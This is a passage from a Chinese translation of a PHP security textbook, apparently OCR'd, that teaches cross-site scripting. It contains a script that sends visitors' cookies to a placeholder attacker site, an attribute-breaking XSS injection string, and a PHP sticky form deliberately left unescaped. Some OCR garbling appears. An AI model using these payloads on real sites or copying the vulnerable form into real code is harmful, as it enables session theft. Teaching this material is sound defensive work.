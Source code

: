 `<script type="text/javascript">alert('XSS attack');</script>`

或者

***清单 11-9。**一个不可避免的评论，它读取访问者的 Cookies 并将它们转移到攻击者的站点*

`<script type="text/javascript">
document.location = 'http://attackingSite.com/cookieGrabber.php?cookies='
                                 + document.cookie
</script>`

*   重新显示时没有过滤和转义的 PHP 表单。这可以是登录、注册或搜索表单。

考虑一个使用`$_POST`数据填充字段值的表单。当表单提交不完整时，以前的值会填充输入字段。这是一种用于维护表单状态的常用技术。它使用户在输入非法值或错过必填字段时不必重新输入每个字段值。考虑清单 11-10 中的 PHP 脚本。

***清单 11-10。**用 PHP 实现粘性表单处理。无输出逃逸，易受 XSS 影响*

`<?php

$field_1 = "";
$field_2 = "";
if ( isset( $_POST['submit'] ) ) {
    $form_fields = array( 'field_1', 'field_2' );` `    $completed_form = true;
    foreach ( $form_fields as $field ) {
        if ( !isset( $_POST[$field] ) || trim( $_POST[$field] ) == "" ) {
            $completed_form = false;
            break;
        }else{
            ${$field} = $_POST[$field];
        }
    }

    if ( $completed_form ) {
        //do something with values and redirect
        header( "Location: success.php" );
    } else {
        print "<h2>error</h2>";
    }
}
?>
<form action="listing_11_10.php" method="post">
    <input type="text" name="field_1" value="<?php print $field_1; ?>" />
    <input type="text" name="field_2" value="<?php print $field_2; ?>" />
    <input type="submit" name="submit" />
</form>`

如果我们输入到`field_1`中的值:

`"><script type="text/javascript">alert('XSS attack');</script><"`

然后我们提交的表单将无法通过我们的验证检查。表单将重新显示我们未转义的粘性值。生成的标记现在看起来像清单 11-11 中的。

***清单 11-11。**带有 XSS 指数的内插标记*

`<form action="index.php" method="post">
    <input type="text" name="field_1" value=""><script type="text/javascript">alert![images](img/U002.jpg)
('XSS   attack');</script><"" />
    <input type="text" name="field_2" value="" />
    <input type="submit" name="submit" />
</form>`
